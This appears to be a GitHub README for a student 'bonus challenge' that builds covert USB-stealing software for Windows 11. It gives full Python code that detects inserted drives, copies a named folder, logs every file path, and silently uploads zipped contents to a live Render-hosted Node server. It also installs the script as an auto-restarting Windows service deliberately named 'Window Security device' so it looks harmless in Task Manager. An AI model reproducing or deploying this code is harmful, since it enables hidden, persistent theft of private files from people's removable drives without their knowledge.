









# BONUS CHALLENGE
## This works on Windows 11, please test on windows 11.
**here my first problem is that how to check is a external device is connected or not**

SO i search and found a module called ```psutil``` 
so at first i write a simple program to detect if a external device is connected and check if it contain a folder name lol or not 

the program run after every five second
```python
import time
import psutil
import os

def check_external_drives():
    partitions = psutil.disk_partitions()
    
    external_drives = [p.device for p in partitions if 'removable' in p.opts]
    return external_drives

def list_files(drive):
    try:
        for root, dirs, files in os.walk(drive):
            for name in dirs:
                print(f"Directory: {os.path.join(root, name)}")
            for name in files:
                print(f"File: {os.path.join(root, name)}")
    except Exception as e:
        print(f"Error accessing {drive}: {e}")

def check_directory(drive, dir_name):
    try:
        for root, dirs, files in os.walk(drive):
            if dir_name in dirs:
                print(f"Directory '{dir_name}' exists at: {os.path.join(root, dir_name)}")
                return
        print(f"Directory '{dir_name}' not found on drive {drive}")
    except Exception as e:
        print(f"Error accessing {drive}: {e}")

    
while True:
    external_drives = check_external_drives()
    if external_drives:
        for drive in external_drives:
            print(f"External drive detected: {drive}")
            
            check_directory(drive,"lol")
    time.sleep(5) 


```

But after running the program i found when i insert a pendive in the laptop while running the program it continuously check for the external source every five second even after it detected it in the previous scan



**but i want to detect a particular device at only once and check for the folder lol**

SO after lot of searching i found a module ```win32file``` which only scan for one time if a particular external drive is connected

**Now for uploading the content of the lol folder i first created a webserver using node js**

The webserver has many routes like
* ```/upload``` is the route which upload the zip file and extract it the uploaded file has name as ```${userIp}_${timestamp}``` where userIp is the ip of the requested machine Like that
```javascript
 const userIp = req.ip.replace(/:/g, '_');
    const timestamp = Date.now();
```
* another one is ```/files``` when give you access to all the folder than got uploaded
* another one is ```/download/:folderName``` when you go to this it will download the folder with name given by you as a zip
* ```/deleteall``` will delete all the content on the server
**```backend server code```**

```javascript
const express = require('express');
const multer = require('multer');
const unzipper = require('unzipper');
const fs = require('fs');
const path = require('path');
const serveIndex = require('serve-index');
const cors = require('cors');
const archiver = require('archiver');
const rimraf = require('rimraf').default;

const app = express();
const upload = multer({ dest: 'uploads/' });

const EXTRACTED_FOLDER = path.join(__dirname, 'extracted');

app.use(cors());

app.use('/files', express.static(EXTRACTED_FOLDER), serveIndex(EXTRACTED_FOLDER, { icons: true }));

app.post('/upload', upload.single('zipfile'), async (req, res) => {
    const { file } = req;
    const userIp = req.ip.replace(/:/g, '_');
    const timestamp = Date.now();

    if (!file) {
        return res.status(400).send('No file uploaded.');
    }

    const uniqueDir = path.join(EXTRACTED_FOLDER, `${userIp}_${timestamp}`);
    const zipFilePath = path.join(__dirname, file.path);

    try {
        if (!fs.existsSync(uniqueDir)) {
            fs.mkdirSync(uniqueDir, { recursive: true });
        }

        fs.createReadStream(zipFilePath)
          .pipe(unzipper.Extract({ path: uniqueDir }))
          .on('close', () => {
              console.log(`Extracted to: ${uniqueDir}`);
              fs.unlink(zipFilePath, () => {});
              
              const fileUrl = `${req.protocol}://${req.get('host')}/files/${userIp}_${timestamp}/`;
              res.send({ message: 'File extracted successfully.', url: fileUrl });
          })
          .on('error', (err) => {
              console.error('Error unzipping file:', err);
              res.status(500).send('Error unzipping file.');
          });
    } catch (err) {
        console.error('Error handling file:', err);
        return res.status(500).send('Error processing file.');
    }
});

app.get('/download/:folderName', (req, res) => {
    const folderName = req.params.folderName;
    const folderPath = path.join(EXTRACTED_FOLDER, folderName);

    if (!fs.existsSync(folderPath)) {
        return res.status(404).send('Folder not found.');
    }

    const zipFileName = `${folderName}.zip`;
    res.set({
        'Content-Type': 'application/zip',
        'Content-Disposition': `attachment; filename=${zipFileName}`
    });

    const archive = archiver('zip', { zlib: { level: 9 } });
    archive.pipe(res);
    archive.directory(folderPath, false);
    archive.finalize();
});

app.get('/deleteall', (req, res) => {
   try{
    fs.rmSync(EXTRACTED_FOLDER, { recursive: true, force: true });
    fs.mkdirSync(EXTRACTED_FOLDER, { recursive: true });
    res.send({ message: 'All extracted files deleted successfully.' });

   }catch (err){
    res.send({ message: 'All extracted files not deleted successfully.' });
   }
});

const PORT = process.env.PORT || 3000;
app.listen(PORT, () => {
    console.log(`Server running on port ${PORT}`);
});

```

### python script

so here i use ```win32file``` you can install it by ```pip install pywin32``` here i Skip the CD/DVD drives because i this no one use it 


```BACKUP_FOLDER``` is the folder where the content get copied on the 

```python


import time
import os
import psutil
import shutil
import win32file
import zipfile
import requests

BACKUP_FOLDER = r"C:\Backup"
SERVER_URL = "http://localhost:3000/upload"

def get_removable_drives():
   
    drives = []
    try:
        for drive in psutil.disk_partitions(all=True):
            if "cdrom" in drive.opts.lower():
                continue  
            drive_type = win32file.GetDriveType(drive.device)
            if drive_type == win32file.DRIVE_REMOVABLE:  
                drives.append(drive.device)
    except Exception as e:
        pass
    return drives
```

then i created the function for copying the folder and also the function if the check directory exist or not and various other function like creating log file for listing the file and the subdirectory etc

```python
import time
import os
import psutil
import shutil
import win32file
import zipfile
import requests

BACKUP_FOLDER = r"C:\Backup"
SERVER_URL = "https://saic-challenge-5-server.onrender.com/upload"

def get_removable_drives():
    
    drives = []
    try:
        for drive in psutil.disk_partitions(all=True):
            if "cdrom" in drive.opts.lower():
                continue  # Skip CD/DVD drives
            drive_type = win32file.GetDriveType(drive.device)
            if drive_type == win32file.DRIVE_REMOVABLE:  # Detect removable (USB) drives
                drives.append(drive.device)
    except Exception as e:
        pass
    return drives

def sanitize_drive_name(drive):
    
    return drive.replace(':', '').replace('\\', '_')

def check_directory(drive, dir_name):
    
    try:
        for root, dirs, _ in os.walk(drive):
            if dir_name in dirs:
                return os.path.join(root, dir_name)
    except Exception as e:
        pass
    return None

def copy_folder(src, dest):
    
    try:
        if not os.path.exists(dest):
            os.makedirs(dest)

        for item in os.listdir(src):
            src_path = os.path.join(src, item)
            dest_path = os.path.join(dest, item)

            if os.path.isdir(src_path):
                shutil.copytree(src_path, dest_path, dirs_exist_ok=True)
            else:
                shutil.copy2(src_path, dest_path)

        
        
    except Exception as e:
        pass
        

def scan_drive(drive):
    
    folder_list = []
    file_list = []

    try:
        for root, dirs, files in os.walk(drive):
            for d in dirs:
                folder_list.append(os.path.join(root, d))  # Store folder paths

            for f in files:
                file_path = os.path.join(root, f)
                file_list.append((file_path, os.path.getsize(file_path)))  # Store file paths & sizes

    except Exception as e:
        pass

    # Sort folders alphabetically and files by size (descending)
    folder_list.sort()
    file_list.sort(key=lambda x: x[1], reverse=True)

    # Return sorted folder names and file names (largest first)
    return folder_list, [file[0] for file in file_list]

def update_log(drive, folder_list, file_list):
    
    sanitized_drive = sanitize_drive_name(drive)
    log_file = os.path.join(BACKUP_FOLDER, f"log_{sanitized_drive}.txt")
    try:
        if not os.path.exists(BACKUP_FOLDER):
            os.makedirs(BACKUP_FOLDER)

        with open(log_file, "a", encoding="utf-8") as log:
            log.write(f"\n{drive}: " + ", ".join(folder_list + file_list) + "\n")

        
    except Exception as e:
        pass

def create_zip(drive):
    #Creates a ZIP archive of the backup folder for the specific drive.
    sanitized_drive = sanitize_drive_name(drive)
    zip_file = os.path.join(BACKUP_FOLDER, f"backup_{sanitized_drive}.zip")
    try:
        with zipfile.ZipFile(zip_file, 'w', zipfile.ZIP_DEFLATED) as zipf:
            for root, _, files in os.walk(BACKUP_FOLDER):
                for file in files:
                    file_path = os.path.join(root, file)
                    arcname = os.path.relpath(file_path, BACKUP_FOLDER)  # Keep relative path
                    zipf.write(file_path, arcname)

        pass
    except Exception as e:
        pass
    return zip_file

def upload_zip(zip_file):
    #Uploads the ZIP file to the server
    try:
        with open(zip_file, 'rb') as f:
            response = requests.post(SERVER_URL, files={'zipfile': f})
            response.raise_for_status()  # Raise an error for bad status codes
            
    except Exception as e:
        pass

def clear_backup_folder():
    
    try:
        for item in os.listdir(BACKUP_FOLDER):
            item_path = os.path.join(BACKUP_FOLDER, item)
            if os.path.isdir(item_path):
                shutil.rmtree(item_path)
            else:
                os.remove(item_path)
   
    except Exception as e:
        pass


def run():
    detected_drives = set()

    while True:
        try:
            removable_drives = set(get_removable_drives())

            new_drives = removable_drives - detected_drives
            if new_drives:
                for drive in new_drives:
                    try:
                    
                        sanitized_drive = sanitize_drive_name(drive)
                        lol_folder = check_directory(drive, "lol")

                        if lol_folder:
                            
                            copy_folder(lol_folder, os.path.join(BACKUP_FOLDER, f"lol_{sanitized_drive}"))

                        # Scan drive and update log
                        folders, files = scan_drive(drive)
                        update_log(drive, folders, files)

                        # Create ZIP archive of the backup folder
                        zip_file = create_zip(drive)

                        # Upload ZIP file to the server
                        upload_zip(zip_file)

                        # Clear the backup folder
                        clear_backup_folder()

                    except Exception as e:
                        pass

            detected_drives = removable_drives  # Update detected drives
            time.sleep(5)  # Check every 5 seconds
        except Exception as e:
        
            time.sleep(5)  # Wait and retry


if __name__ == "__main__":
    run()


```

### UPLOADING THE SERVER ON RENDER.COM
**first i upload the webserver code on github**


**the i deploy the site to the render.com**


now the service is live at ```https://saic-challenge-5-server.onrender.com```


### inital testing of the script

```bash
PS C:\Users\softg_mi1r0hh\OneDrive\Desktop\saic problem 6> python .\finalsol.py
```
first i run the python script and inserted two pendrive 

Now lets check if the file uploaded or not

**in the render logs it showing the file is uploaded**


**content inside of my two pendrive**




also i can access its content on the site 




### final task running the script in the background

**so for running it in backgroup i use pywin32 and servicemanager module**

so i write a file usb_service.py 
```python
import os
import sys
import time
import servicemanager
import win32event
import win32service
import win32serviceutil
import subprocess

class USBMonitorService(win32serviceutil.ServiceFramework):
    _svc_name_ = "windowsUsbDeviceSecurity"
    _svc_display_name_ = "Window Security device"
    _svc_description_ = "Check for window security"

    def __init__(self, args):
        win32serviceutil.ServiceFramework.__init__(self, args)
        self.hWaitStop = win32event.CreateEvent(None, 0, 0, None)
        self.running = True

    def SvcStop(self):
        self.ReportServiceStatus(win32service.SERVICE_STOP_PENDING)
        win32event.SetEvent(self.hWaitStop)
        self.running = False

    def SvcDoRun(self):
        servicemanager.LogMsg(servicemanager.EVENTLOG_INFORMATION_TYPE,
                              servicemanager.PYS_SERVICE_STARTED,
                              (self._svc_name_, ''))
        self.main()

    def main(self):
        import finalsolution  
        finalsolution.run()

if __name__ == '__main__':
    if len(sys.argv) == 1:
        servicemanager.Initialize()
        servicemanager.PrepareToHostSingle(USBMonitorService)
        servicemanager.StartServiceCtrlDispatcher()
    else:
        win32serviceutil.HandleCommandLine(USBMonitorService)
    
    # Configure the service to restart on failure
    subprocess.run(['sc', 'failure', 'windowsUsbDeviceSecurity', 'reset=0', 'actions=restart/60000'])

    # Configure the service to start automatically after a reboot
    subprocess.run(['sc', 'config', 'windowsUsbDeviceSecurity', 'start=', 'auto'])

```
* **svc_name**:This is the internal name of the service. It should be unique and is used by the system to identify the service

* **svc_display_name**:This is the name displayed in the Windows Services Manage
here i write the display name as Window Security device so if anyone open the taskmanager at the first glance it does not seem to me malicious

**now to run it into the background run the following two command**

**install the service**
``` shell
python usb_service.py install

```

**start the service**

```bash
net start windowsUsbDeviceSecurity
```
<!-- python usb_monitor_service.py remove -->
<!-- net stop windowsUsbDeviceSecurity -->

**after running the command it show running in taskManager**


**now when i inserted two pendrive in my laptop and check if the folder are uploaded or not**



yeah all are uploaded 
